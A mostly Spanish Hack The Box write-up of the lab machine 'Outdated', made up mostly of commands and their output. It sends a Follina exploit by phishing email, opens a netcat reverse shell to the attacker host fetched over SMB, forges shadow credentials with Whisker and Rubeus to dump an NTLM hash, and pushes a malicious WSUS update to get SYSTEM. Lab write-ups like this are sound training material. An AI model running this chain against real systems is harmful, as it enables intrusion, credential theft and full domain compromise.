




Hack The Box: Outdated Writeup
Welcome to my detailed writeup of the medium difficulty machine “Outdated” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
1$ rustscan -a 10.129.229.239 --ulimit 5000 -g
210.129.229.239 -> [25,53,88,135,139,389,445,464,593,636,3268,3269,5985,8530,8531,9389,49667,49691,49692,49914,49940,49961]
1cat allPorts
2# Nmap 7.94SVN scan initiated Mon Aug 26 21:11:16 2024 as: nmap -p25,53,88,135,139,389,445,464,593,636,3268,3269,5985,8530,8531,9389,49667,49691,49692,49914,49940,49961 -sCV -oN allPorts 10.129.229.239
3Nmap scan report for 10.129.229.239
4Host is up (0.040s latency).
5
6PORT STATE SERVICE VERSION
725/tcp open smtp hMailServer smtpd
8| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP
9|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
1053/tcp open domain Simple DNS Plus
1188/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2024-08-27 01:11:25Z)
12135/tcp open msrpc Microsoft Windows RPC
13139/tcp open netbios-ssn Microsoft Windows netbios-ssn
14389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
15| ssl-cert: Subject: commonName=DC.outdated.htb
16| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
17| Not valid before: 2023-12-13T00:17:36
18|_Not valid after: 2024-12-12T00:17:36
19|_ssl-date: 2024-08-27T01:12:58+00:00; +6h00m02s from scanner time.
20445/tcp open microsoft-ds?
21464/tcp open kpasswd5?
22593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
23636/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
24|_ssl-date: 2024-08-27T01:12:57+00:00; +6h00m01s from scanner time.
25| ssl-cert: Subject: commonName=DC.outdated.htb
26| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
27| Not valid before: 2023-12-13T00:17:36
28|_Not valid after: 2024-12-12T00:17:36
293268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
30| ssl-cert: Subject: commonName=DC.outdated.htb
31| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
32| Not valid before: 2023-12-13T00:17:36
33|_Not valid after: 2024-12-12T00:17:36
34|_ssl-date: 2024-08-27T01:12:58+00:00; +6h00m02s from scanner time.
353269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
36|_ssl-date: 2024-08-27T01:12:57+00:00; +6h00m02s from scanner time.
37| ssl-cert: Subject: commonName=DC.outdated.htb
38| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.outdated.htb
39| Not valid before: 2023-12-13T00:17:36
40|_Not valid after: 2024-12-12T00:17:36
415985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
42|_http-title: Not Found
438530/tcp open http Microsoft IIS httpd 10.0
44|_http-title: Site doesn't have a title.
45| http-methods:
46|_ Potentially risky methods: TRACE
478531/tcp open unknown
489389/tcp open mc-nmf .NET Message Framing
4949667/tcp open msrpc Microsoft Windows RPC
5049691/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
5149692/tcp open msrpc Microsoft Windows RPC
5249914/tcp open msrpc Microsoft Windows RPC
5349940/tcp open msrpc Microsoft Windows RPC
5449961/tcp open msrpc Microsoft Windows RPC
55Service Info: Hosts: mail.outdated.htb, DC; OS: Windows; CPE: cpe:/o:microsoft:windows
56
57Host script results:
58| smb2-security-mode:
59| 3:1:1:
60|_ Message signing enabled and required
61| smb2-time:
62| date: 2024-08-27T01:12:14
63|_ start_date: N/A
64|_clock-skew: mean: 6h00m01s, deviation: 0s, median: 6h00m01s
65
66Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
67# Nmap done at Mon Aug 26 21:12:56 2024 -- 1 IP address (1 host up) scanned in 100.77 secondsUDP Enumeration
1sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.229.239 -oN allPorts.UDP
2Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-26 21:12 CEST
3Nmap scan report for 10.129.229.239
4Host is up (0.039s latency).
5Not shown: 1497 open|filtered udp ports (no-response)
6PORT STATE SERVICE
753/udp open domain
888/udp open kerberos-sec
9123/udp open ntp
10
11Nmap done: 1 IP address (1 host up) scanned in 0.96 secondsDetectamos que nos enfrentamos contra un entorno de directorio activo ya que están puertos expuestos típicos como 88/TCP Keberos, 389/TCP LDAP.
También encontramos un dominio, outdated.htb, lo agregamos al /etc/hosts, encontramos el nombre NS del DC DC.outdated.htb
También vemos un servidor web IIS por el puerto 8530/TCP
DNS Enumeration
Siempre que veo un servidor DNS me gusta enumerarlo para ver si podemos encontrar mas subdominios.
1dnsenum -f /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -dnsser
2ver 10.129.229.239 outdated.htbNos reporta un subdominio mail.outdated.htb, client.outdated.htb y wsus.outdated.htb, los añadimos también al /etc/hosts
No podemos hacer una transferencia de zona.
1dig axfr outdated.htb @10.129.229.239
2
3; <<>> DiG 9.18.24-1-Debian <<>> axfr outdated.htb @10.129.229.239
4;; global options: +cmd
5; Transfer failed.SMB Enumeration
1smbmap -H 10.129.229.239 -u 'null'
2[+] Guest session IP: 10.129.229.239:445 Name: wsus.outdated.htb
3 Disk Permissions Comment
4 ---- ----------- -------
5 ADMIN$ NO ACCESS Remote Admin
6 C$ NO ACCESS Default share
7 IPC$ READ ONLY Remote IPC
8 NETLOGON NO ACCESS Logon server share
9 Shares READ ONLY
10 SYSVOL NO ACCESS Logon server share
11 UpdateServicesPackages NO ACCESS A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
12 WsusContent NO ACCESS A network share to be used by Local Publishing to place published content on this WSUS system.
13 WSUSTemp NO ACCESS A network share used by Local Publishing from a Remote WSUS Console Instance.Haciendo uso de una null session detectamos varios recursos.
Me interesa el recurso Shares ya que el otro recurso compartido al que tenemos acceso es IPC$
1smbclient \\\\10.129.229.239\\Shares -U 'null' -NVemos un fichero NOC_Reminder.pdf
1smb: \> dir
2 . D 0 Mon Jun 20 17:01:33 2022
3 .. D 0 Mon Jun 20 17:01:33 2022
4 NOC_Reminder.pdf AR 106977 Mon Jun 20 17:00:32 2022Nos lo descargamos.
1smb: \> get NOC_Reminder.pdf
2getting file \NOC_Reminder.pdf of size 106977 as NOC_Reminder.pdf (458,2 KiloBytes/sec) (average 458,2 KiloBytes/sec)Leyendo el PDF me interesa esto:
please assist our NOC by e-mailing a link to any internal web applications to itsupport@outdated.htb so we can get them added back into our monitoring platform for alerts and notifications.
Pide que enviemos un correo con un link a itsupport@outdated.htb para poder añadir este link a las plataformas de monitorización alerta y notificaciones.
RPC Enumeration
1rpcclient -N -U "" 10.129.229.239
2rpcclient $> enumdomusers
3result was NT_STATUS_ACCESS_DENIED
4rpcclient $> enumdomgroups
5result was NT_STATUS_ACCESS_DENIEDLDAP Enumeration
1ldapsearch -H ldap://outdated.htb/ -x -s base -b '' "(objectClass=*)" "*"Podemos recuperar algo de información pero nada interesante.
HTTP Enumeration
whatweb no me reporta nada que no sepamos.
1whatweb http://outdated.htb:8530
2http://outdated.htb:8530 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.229.239], Microsoft-IIS[10.0], X-Powered-By[ASP.NET]Fuzzeando no encuentro nada relevante.
Exploiting Follina -> Foothold
En el PDF que hemos visto antes nos adjuntaban una tabla con vulnerabilidades que supuestamente todavía no están parcheadas.
La primera de todas es el CVE-2022-30190, mas conocido como Follina.

Podemos utilizar este PoC para realizar la explotación.
Nos podemos copiar el one-liner en powershell de revshells.com
1python3 follina_exploit.py -c "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY......"Ahora nos vamos a dirigir a esta ruta y vamos a servir el index.html a través del puerto 80, por alguna razón solo consigo que este link se abra cuando se comparte un link sin especificar el puerto.

1cd /tmp/follina_0osyx6x_/www/
2
3sudo python3 -m http.server 80Ahora enviamos el correo electrónico a la dirección que habíamos encontrado antes con el enlace malicioso.
1swaks --to itsupport@outdated.htb --from pointedsec@gmail.com --server mail.outd
2ated.htb --body "http://10.10.14.125/" --header "Subject:Internal Web App Request"Por alguna razón no funciona.
Como tiene el SMB abierto vamos a compartirnos el netcat y vamos a enviarnos una revshell.
Nos copiamos el netcat.
1cp /opt/SecLists/Web-Shells/FuzzDB/nc.exe .Servimos este archivo por SMB
1sudo impacket-smbserver -smb2support smbFolder .
2Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra
3
4[*] Config file parsed
5[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
6[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
7[*] Config file parsed
8[*] Config file parsed
908/26/2024 10:20:57 PM: INFO: Config file parsedAhora enviamos el correo…
1swaks --to itsupport@outdated.htb --from pointedsec@gmail.com --server mail.outdated.htb --body "http://10.10.14.125/" --header "Subject:Internal Web App Request"Ahora cambiamos el comando del exploit para utilizar el netcat que estamos sirviendo por el SMB y mandarnos una revshell.
1python3 follina_exploit.py -c "cmd.exe /c \\\\10.10.14.125\\smbFolder\\nc.exe 10
2.10.14.125 443 -e cmd.exe"Podemos ver que capturamos el hash NTLMv2 aunque no tenemos suerte crackeándolo.
1btables::OUTDATED:aaaaaaaaaaaaaaaa:4f766168c3ca8028d88c51e98dc81a75:0101000000000000006ca9caf5f7da0135533e5bdf5a4d33000000000100100048006e0059005700760078006c006c000300100048006e0059005700760078006c006c000200100063006900710045005100470049005200040010006300690071004500510047004900520007000800006ca9caf5f7da0106000400020000000800300030000000000000000000000000200000a52701887bc37024800a419b24ee2e442f357d2961a11062e59a2a6f8b7aa81c0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100320035000000000000000000Y conseguimos acceso.
1sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.125] from (UNKNOWN) [10.129.229.239] 49849
4Microsoft Windows [Version 10.0.19043.928]
5(c) Microsoft Corporation. All rights reserved.
6
7C:\Users\btables\AppData\Local\Temp\SDIAG_9caee2d7-dad7-40ff-bc98-6b0868f102ae>whoami
8whoami
9outdated\btablesGanamos acceso como el usuario btables
Podemos comprobar que estamos en otro equipo que no es el DC.
1C:\Users\btables\AppData\Local\Temp\SDIAG_9caee2d7-dad7-40ff-bc98-6b0868f102ae>ipconfig
2ipconfig
3
4Windows IP Configuration
5
6
7Ethernet adapter Ethernet:
8
9 Connection-specific DNS Suffix . :
10 IPv4 Address. . . . . . . . . . . : 172.16.20.20
11 Subnet Mask . . . . . . . . . . . : 255.255.255.0
12 Default Gateway . . . . . . . . . : 172.16.20.11C:\Users\btables>hostname
2hostname
3clientBloodhound time
Después de pasar el winpeas.exe y no encontrar casi nada relevante, ni si quiera la flag de usuario, decidí pasar el SharpHound.exe para hacer un análisis con bloodhound.
Nos lo pasamos a la máquina víctima.
1C:\Users\btables\Documents>copy \\10.10.14.125\smbFolder\SharpHound.exe .
2copy \\10.10.14.125\smbFolder\SharpHound.exe .
3 1 file(s) copied.Lo ejecutamos y esperamos a que termine…
1C:\Users\btables\Documents>.\SharpHound.exe -c AllAhora nos copiamos el resultado a nuestro equipo.
1C:\Users\btables\Documents>copy 20240826183058_BloodHound.zip \\10.10.14.125\smbFolder\20240826183058_BloodHound.zip
2copy 20240826183058_BloodHound.zip \\10.10.14.125\smbFolder\20240826183058_BloodHound.zip
3 1 file(s) copied.Iniciamos la base de datos neo4j que es la que usa bloodhound
1sudo neo4j start
2Directories in use:
3home: /usr/share/neo4j
4config: /usr/share/neo4j/conf
5logs: /etc/neo4j/logs
6plugins: /usr/share/neo4j/plugins
7import: /usr/share/neo4j/import
8data: /etc/neo4j/data
9certificates: /usr/share/neo4j/certificates
10licenses: /usr/share/neo4j/licenses
11run: /var/lib/neo4j/run
12Starting Neo4j.
13Started neo4j (pid:8746). It is available at http://localhost:7474
14There may be a short delay until the server is ready.Ahora ejecutamos el bloodhound
1bloodhound &
2[1] 9245
3disown %1Cargamos el archivo zip en el bloodhound

Encontramos lo siguiente.
El usuario btables pertenece al grupo ITSTAFF, este grupo tiene el privilegio AddKeyCredentialLink hacia el usuario sflower que a su vez pertenece al grupo Remote Management Users por lo cual mediante WinRM podríamos ganar una consola en el DC.

The members of the group ITSTAFF@OUTDATED.HTB have the ability to write to the “msds-KeyCredentialLink” property on SFLOWERS@OUTDATED.HTB. Writing to this property allows an attacker to create “Shadow Credentials” on the object and authenticate as the principal using kerberos PKINIT.
Es decir, podemos crear unas Shadow Credentials para poder autenticarnos como este usuario sin cambiar las credenciales reales de este usuario usando su hash NTLM.
Para ello podemos descargarnos Whisker.exe y moverlo a la máquina víctima.
1C:\Users\btables\Documents>copy \\10.10.14.125\smbFolder\Whisker.exe .
2copy \\10.10.14.125\smbFolder\Whisker.exe .
3 1 file(s) copied.Ahora también necesitamos movernos el Rubeus a la máquina víctima.
Ahora ejecutamos el Whisker.exe
1C:\Users\btables\Documents>.\Whisker.exe add /target:sflowers
2.\Whisker.exe add /target:sflowers
3[*] No path was provided. The certificate will be printed as a Base64 blob
4[*] No pass was provided. The certificate will be stored with the password 2Y8ae12sDimFg3QJ
5[*] Searching for the target account
6[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
7[*] Generating certificate
8....Esto nos generará un comando para recuperar las credenciales con Rubeus.
Simplemente lo copiamos y lo pegamos.
Estuve teniendo problemas con la shell ya que Rubeus no me reportaba el output, así que lo que hice fue exportar el certificado a un archivo y así utilizarlo desde Rubeus.
1PS C:\Users\btables\Documents> .\Whisker.exe add /target:sflowers /path:cert.pfx
2.\Whisker.exe add /target:sflowers /path:cert.pfx
3[*] No pass was provided. The certificate will be stored with the password LRBT7MkOUQuRDTLp
4[*] Searching for the target account
5[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
6[*] Generating certificate
7[*] Certificate generaged
8[*] Generating KeyCredential
9[*] KeyCredential generated with DeviceID 822fd180-c3b2-4f78-825a-50d9291f9aa0
10[*] Updating the msDS-KeyCredentialLink attribute of the target object
11[+] Updated the msDS-KeyCredentialLink attribute of the target object
12[*] Saving the associated certificate to file...
13[*] The associated certificate was saved to cert.pfx
14[*] You can now run Rubeus with the following syntax:
15
16Rubeus.exe asktgt /user:sflowers /certificate:cert.pfx /password:"LRBT7MkOUQuRDTLp" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show 1PS C:\Users\btables\Documents> .\Rubeus.exe asktgt /user:sflowers /certificate:cert.pfx /password:"LRBT7MkOUQuRDTLp" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
2.\Rubeus.exe asktgt /user:sflowers /certificate:cert.pfx /password:"LRBT7MkOUQuRDTLp" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
3
4 ______ _
5 (_____ \ | |
6 _____) )_ _| |__ _____ _ _ ___
7 | __ /| | | | _ \| ___ | | | |/___)
8 | | \ \| |_| | |_) ) ____| |_| |___ |
9 |_| |_|____/|____/|_____)____/(___/
10
11 v2.3.2
12
13[*] Action: Ask TGT
14
15[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers
16[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
17[*] Using domain controller: 10.129.229.239:88
18[+] TGT request successful!
19[*] base64(ticket.kirbi):
20
21 doIF0jCCBc6gAwIBBaEDAgEWooIE5zCCBONhggTfMIIE26ADAgEFoQ4bDE9VVERBVEVELkhUQqIhMB+g
22 AwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRio4IEnzCCBJugAwIBEqEDAgECooIEjQSCBIkNgqUw
23 FxPGj0Vpi4YqjMO7HqtC1sfkKNiM6+jvEGio9pJqaZGJcSN4uMVLljmRVKMPWOISyGfGxod1P6d7iKsM
24 WBSiJEFkS3o/E/PQ/hMCMOVSsd62Wct8vLe3jRfXZqUBFTWjDPg8tjT3cG8+SGWGt8w4OK4cK2URfQFV
25 63mqcBHOyZeEtCEZ5RzXiD6A2yuaozyAnwQF9ufUNIxOoTLIdLE7bI+3B730X3iWx7/Stkg9oiJKfHrI
26 lwrbY833wkAT9VIZrXfKsf3w58dZHr7aEUPOWKMOsAKnazIZw7Dgp5VYC1sUz+/RWxFV3VdWrYZ+tNGt
27 3inQ2ysFTf88UIGwB4sr0cSSPjzmjo/vAawShKwUvA6Cl1F+cDpVQOtVH5aslEmYj2pGfBKWP6O2TLSg
28 bsO5g++0e9suCd+XgW8XT1PHNP2x+GNziA48ImUK99/C0IobPp1WMQlaDS2IeHoL4su47L8skTpDkmLm
29 IBVXWxkSURCkwZ+tNgnWJalOuLlyxfcZklCvq0WHtyfxPoMGd9UZndKHu0RYkeHkj9Fr3v4KlLRFI1p6
30 TRrhP/UKFg8wycDw/AsYFx56DSwAej2meABA/pBYrZm/imEyPAmvlfoh7mRC3eHnC3PR/NWouvV1ArRK
31 7kEQ/oM7F57QVhmrnYF+nOB3XZUDNxMcJl0QampA14PdFJ8mKp5QdUt5nEd4o3K5eTCgsKOS9DJBRbvP
32 qi9UNgRLMWLQ+lxxxaqsWbnQh69tQufSjc2wcECc6dDpvEMDJzC1v13Od++DrehUm8hi4SZ+BF9arbBH
33 mXAVegpJbvLdgWjJ1o9SU1wcJwT7lrnmNiI9oUaVVeRIHjmN4hf47XGrXCqSNKhl7SBKjiqbjXvhxf+t
34 QYzeoNznZlqrw6Lt8thf4yF8LcHwtXZdO6GzZ/2SE9gnf2A34QMQpFU8GwgGOY1v0uOH/kacYZ3MBXaU
35 7E3OfGSWhYyoG24jfRrsGkXGzzzz7mvf28juQQYkbPTkVreWzP1nKdNGbZzyd+hhoPmSCynjQ51+gP7Z
36 OnZMQ1AlG9VRxrmUOGWcfXvD8CPBXjKbdFNQQKY+btuGCA4Q+AfocMzUF0oEdVdrpUy9zDpITfH5WMge
37 uo2VBoC+eaPFUCwVkhekVJrfVnOf7gy1kXdsIdGPT/+XL1OpQRxCN0o4lIfoqx6vsP2V2sA+ZIl6Luah
38 +8jXX5fUkPP7S4bCqFyz6bciz+1HtNYotLtHrOz+b3XJOvq50smTUbnjVyTCgMpdrn6zaDaMeKRX57dr
39 JqY2ot7WfIAD/Mt1fDiH7sae58dtyp88yNPsY5HA0PzRBDEXatHx04gpcLY5+vn4dDp839Z8h8/dxmz+
40 UqcV6BzzBfz2yLrGApzJdoeNUHaQUQpgZaKid9OlqnW66xRjS/+wYrYZP5yzG3/+WtX6QfrzfyTyKMiq
41 HS3VNZvyDQzo+YNnS0Q61DV5CXqizywvTGJyVgMPShTi0XC5CNtHG+mN/GMr5kxg9VCobc69faE40s7E
42 HzjAWziXc/8P8Wl5zoxNr/2jgdYwgdOgAwIBAKKBywSByH2BxTCBwqCBvzCBvDCBuaAbMBmgAwIBF6ES
43 BBAFrkBjShO/TIx+WQr1VmFToQ4bDE9VVERBVEVELkhUQqIVMBOgAwIBAaEMMAobCHNmbG93ZXJzowcD
44 BQBA4QAApREYDzIwMjQwODI3MDI0NTM1WqYRGA8yMDI0MDgyNzEyNDUzNVqnERgPMjAyNDA5MDMwMjQ1
45 MzVaqA4bDE9VVERBVEVELkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRi
46
47 ServiceName : krbtgt/outdated.htb
48 ServiceRealm : OUTDATED.HTB
49 UserName : sflowers (NT_PRINCIPAL)
50 UserRealm : OUTDATED.HTB
51 StartTime : 8/26/2024 7:45:35 PM
52 EndTime : 8/27/2024 5:45:35 AM
53 RenewTill : 9/2/2024 7:45:35 PM
54 Flags : name_canonicalize, pre_authent, initial, renewable, forwardable
55 KeyType : rc4_hmac
56 Base64(key) : Ba5AY0oTv0yMflkK9VZhUw==
57 ASREP (key) : 9B41916C3A54EF74979703ADF94F0A0A
58
59[*] Getting credentials using U2U
60
61 CredentialInfo :
62 Version : 0
63 EncryptionType : rc4_hmac
64 CredentialData :
65 CredentialCount : 1
66 NTLM : 1FCDB1F6015DCB318CC77BB2BDA14DB5
67PS C:\Users\btables\Documents> Y ahí obtenemos un hash NTLM
Lo podemos comprobar con netexec
1nxc smb 10.129.229.239 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'
2SMB 10.129.229.239 445 DC [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:outdated.htb) (signing:True) (SMBv1:False)
3SMB 10.129.229.239 445 DC [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5Y podemos comprobar también si efectivamente está en el grupo Remote Management Users
1nxc winrm 10.129.229.239 -u 'sflowers' -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'
2WINRM 10.129.229.239 5985 DC [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:outdated.htb)
3WINRM 10.129.229.239 5985 DC [+] outdated.htb\sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5 (Pwn3d!)Y ya podemos conseguir una consola como sflowers
1evil-winrm -i 10.129.229.239 -u sflowers -H '1FCDB1F6015DCB318CC77BB2BDA14DB5'
2
3Evil-WinRM shell v3.5
4
5Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
6
7Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
8
9Info: Establishing connection to remote endpoint
10*Evil-WinRM* PS C:\Users\sflowers\Documents> whoami
11outdated\sflowersTambién podemos leer la flag de usuario.
1*Evil-WinRM* PS C:\Users\sflowers\Desktop> type user.txt
2201cccf8d3ce2...Privilege Escalation
Enumerando la máquina, vemos que sflowers pertenece a un grupo llamado WSUS Administrators
1*Evil-WinRM* PS C:\Users\sflowers\Desktop> net user sflowers
2User name sflowers
3Full Name Susan Flowers
4Comment
5User's comment
6Country/region code 000 (System Default)
7Account active Yes
8Account expires Never
9
10Password last set 6/20/2022 11:04:09 AM
11Password expires Never
12Password changeable 6/21/2022 11:04:09 AM
13Password required Yes
14User may change password No
15
16Workstations allowed All
17Logon script
18User profile
19Home directory
20Last logon 8/26/2024 7:45:35 PM
21
22Logon hours allowed All
23
24Local Group Memberships *Remote Management Use*WSUS Administrators
25Global Group memberships *Domain Users
26The command completed successfully.Después de leer e investigar un rato me encontré este post donde habla de un binario llamado SharpWSUS.exe
Nos vamos a descargar el repositorio y a compilarlo. https://github.com/nettitude/SharpWSUS
Una vez lo tengamos en la máquina víctima, el primer paso es encontrar el servidor WSUS.
1*Evil-WinRM* PS C:\Users\sflowers\Desktop> .\SharpWSUS.exe locate
2
3 ____ _ __ ______ _ _ ____
4/ ___|| |__ __ _ _ __ _ _\ \ / / ___|| | | / ___|
5\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
6 ___) | | | | (_| | | | |_) \ V V / ___) | |_| |___) |
7|____/|_| |_|\__,_|_| | .__/ \_/\_/ |____/ \___/|____/
8 |_|
9 Phil Keeble @ Nettitude Red Team
10
11[*] Action: Locate WSUS Server
12WSUS Server: http://wsus.outdated.htb:8530
13
14[*] Locate completeEl segundo paso sería inspeccionar para ver que equipos tenemos a nuestro alcance para poder hacer el movimiento lateral, en este caso sabemos que nuestro “target” es dc.outdated.htb
Parece ser que WSUS solo confía de binarios firmados por Microsoft, así que podemos utilizar PsExec64.exe para poder ejecutar nuestro comando deseado.
Sabiendo esto, podemos crear una tarea de actualización para que se nos mande una reverse shell a nuestra IP.
1.\SharpWSUS.exe create /payload:"C:\ProgramData\ps.exe" /args:" -accepteula -s -d C:\ProgramData\nc.exe -e cmd.exe 10.10.14.125 443" /title:"pwnedbypointed"
2
3...
4*] Action: Create Update
5[*] Creating patch to use the following:
6[*] Payload: ps.exe
7[*] Payload Path: C:\ProgramData\ps.exe
8[*] Arguments: -accepteula -s -d C:\ProgramData\nc.exe -e cmd.exe 10.10.14.125 443
9[*] Arguments (HTML Encoded): -accepteula -s -d C:\ProgramData\nc.exe -e cmd.exe 10.10.14.125 443
10
11################# WSUS Server Enumeration via SQL ##################
12ServerName, WSUSPortNumber, WSUSContentLocation
13-----------------------------------------------
14DC, 8530, c:\WSUS\WsusContent
15
16ImportUpdate
17Update Revision ID: 46
18PrepareXMLtoClient
19InjectURL2Download
20DeploymentRevision
21PrepareBundle
22PrepareBundle Revision ID: 47
23PrepareXMLBundletoClient
24DeploymentRevision
25
26[*] Update created - When ready to deploy use the following command:
27[*] SharpWSUS.exe approve /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:Target.FQDN /groupname:"Group Name"
28
29[*] To check on the update status use the following command:
30[*] SharpWSUS.exe check /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:Target.FQDN
31
32[*] To delete the update use the following command:
33[*] SharpWSUS.exe delete /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:Target.FQDN /groupname:"Group Name"
34
35[*] Create completeAhora solo hay que aprobar la actualización para desplegarla en dc.outdated.htb
1*Evil-WinRM* PS C:\Users\sflowers\Desktop> .\SharpWSUS.exe approve /updateid:c8cc30c0-30dc-44d3-b583-c2efe3e30535 /computername:dc.outdated.htb /groupname:"pwneeedhahaha"
2
3 ____ _ __ ______ _ _ ____
4/ ___|| |__ __ _ _ __ _ _\ \ / / ___|| | | / ___|
5\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
6 ___) | | | | (_| | | | |_) \ V V / ___) | |_| |___) |
7|____/|_| |_|\__,_|_| | .__/ \_/\_/ |____/ \___/|____/
8 |_|
9 Phil Keeble @ Nettitude Red Team
10
11[*] Action: Approve Update
12
13Targeting dc.outdated.htb
14TargetComputer, ComputerID, TargetID
15------------------------------------
16dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1
17Group Exists = False
18Group Created: pwneeedhahaha
19Added Computer To Group
20Approved Update
21
22[*] Approve completeY ahora si nos ponemos en escucha…
1sudo rlwrap -cEr nc -lvnp 443
2listening on [any] 443 ...
3connect to [10.10.14.125] from (UNKNOWN) [10.129.229.239] 50069
4Microsoft Windows [Version 10.0.17763.1432]
5(c) 2018 Microsoft Corporation. All rights reserved.
6
7C:\Windows\system32>whoami
8whoami
9nt authority\systemPodemos leer la flag de root
1C:\Users\Administrator\Desktop>type root.txt
2type root.txt
